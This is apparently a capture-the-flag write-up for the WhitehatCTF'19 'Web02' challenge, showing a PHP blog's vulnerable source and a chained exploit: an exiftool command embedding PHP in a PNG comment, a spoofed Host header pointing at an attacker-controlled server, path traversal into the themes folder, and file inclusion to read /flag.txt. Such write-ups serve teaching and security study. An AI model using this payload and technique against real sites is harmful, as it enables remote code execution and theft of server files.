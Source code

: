 ```yaml
---
layout: post
title: Title
excerpt: "This was the second web challenge we solved in Whitehat I thought this problem was much more interesting than the first."
categories: [Writeups, WhitehatCTF'19]
tags: [web]
---
```


This was the second web challenge we solved in Whitehat I thought this problem was much more interesting than the first. 

#### Web02
```
Challenge is available at http://52.78.36.66:81/
```

When we first visit the website, we see there is a form we can upload a picture which will get randomly hashed. It is restricted to being a PNG or JPG, we didn't manage to upload an SVG. There is also another section which allows you to make a post using a picture stored on the server.

The index page contained an HTML comment saying `<!-- flag is located at /flag.txt -->`. Now we knew what we wanted to find.

After looking at the requests we made when making a post, we noticed that we were making a post request to `http://52.78.36.66:81/post.php` 

If we visit this url in our browser with a get request, we are given the source of the page.

```php
<?php  
require_once('header.php');  
require_once('db.php');  
  
$post = [];  
  
function rotate_feature_img($post_id, $degrees) {  
	$post = get_post($post_id);  
	$src_file = $post['feature_img'];  
	$ext = strtolower(pathinfo($src_file, PATHINFO_EXTENSION));  
  
	$src_file = "uploads/" . $src_file;  
	if ( !file_exists( $src_file ) ) {  
		$base_url = "http://" . $_SERVER['HTTP_HOST'];  
		$src = $base_url. "/" . $src_file;  
	} else {  
		$src = $src_file;  
	}  
	try {  
		$img = new Imagick($src);  
		$img->rotateImage('white', $degrees);  
	} catch (Exception $e) {  
		die('fail to rotate image');  
	}  
	@mkdir(dirname($src_file));  
	@$img->writeImage($src_file);  
}  
  
function get_title() {  
	global $post;  
	echo $post['title'];  
}  
  
function get_body() {  
	global $post;  
	echo $post['body'];  
}  
  
function get_img_src() {  
	global $post;  
	$base_url = "http://" . $_SERVER['HTTP_HOST'];  
	echo $base_url."/uploads/".$post['feature_img'];  
}  
  
function check_theme($theme) {  
	if(!in_array($theme, scandir('./themes'))) {  
	die("Invalid theme!");  
	}  
}  
  
if (isset($_GET['post_id'])) {  
	require_once('post_header.php');  
	  
	$post_id = $_GET['post_id'];  
	global $post;  
	$post = get_post($post_id);  
	if (isset($_GET['theme'])) {  
	$theme = $_GET['theme'];  
	} else {  
	$theme = 'theme1.php';  
	}  
	check_theme($theme);  
	include('themes/'.$theme);  
	echo("<button class='btn btn-primary' id='edit-btn'>Edit image</button>  
	<form action='post.php' method='post' width='50%'>  
	<div class='form-group' id='edit-div'>  
	<label for='exampleInputEmail1'>Degree</label>  
	<input type='text' class='form-control' id='exampleInputEmail1' placeholder='90' name='degree'>  
	<input type='hidden' class='form-control' id='exampleInputEmail2' value='$post_id' name='post_id'>  
	<button type='submit' class='btn btn-primary'>Rotate</button>  
	</div>");  
	require_once('post_footer.php');  
}  
else if (isset($_POST['post_id']) && isset($_POST['degree'])) {  
	$post_id = $_POST['post_id'];  
	rotate_feature_img($post_id, (int) $_POST['degree']);  
	header("Location: /post.php?post_id=$post_id&theme=theme1.php");  
} else {  
	show_source('post.php');  
}  
  
require_once('footer.php');  
?>`
```

I also noticed that the name of the website was `Sordpress`, similar to wordpress. I looked for similar wordpress exploits. I found an [article](https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/) which explained something similar. 

Looking back at the source,  it is obvious that `"http://" . $_SERVER['HTTP_HOST']` can be exploited. On a server we control, we uploaded a file that we wanted to be uploaded to the challenge server. The image we used was created using the following command:
`exiftool -Comment='<?php include "/flag.txt";?>' flag.png`
This would put the php code in plaintext into the flag.png file. Other payloads we tried did not work. 

The current process to upload our own files was the following.
1. Upload our exploited png to our own server
2. Make a new post using the website
	* `HTTP_HOST` was set to the ip of our server
	* Featured image was set to `flag.png`

Now we had our file uploaded to the server, what could we do with it? We determined there was not much. It seemed like all files ending with `.php` were forbidden. However, when looking at the wordpress article, it mentioned putting the file into the themes folder. An observation we made was that when looking at a post, there was a parameter `theme`. We first thought this could be an LFI but when looking at the source, it seemed like LFI was impossible as it verified the file was in the `/themes` directory.  But, what if we could upload our file and put it into the themes folder. Then we could include it without problems and get our flag. 

The final process to get the flag was the following.
1. Upload our exploited png to our own server and put it in `/themes/` folder on a server we controlled
2. Make a new post using the website
	* `HTTP_HOST` was set to the ip of our server
	* Featured image was set to `../themes/flag.png`
		* The `../` was used to get rid of the `/uploads` which was prepended to our URL
3.  Finally, we could include our uploaded file using the themes argument by visiting `http://52.78.36.66:81/post.php?post_id=VBtLDmQP&theme=flag.png`
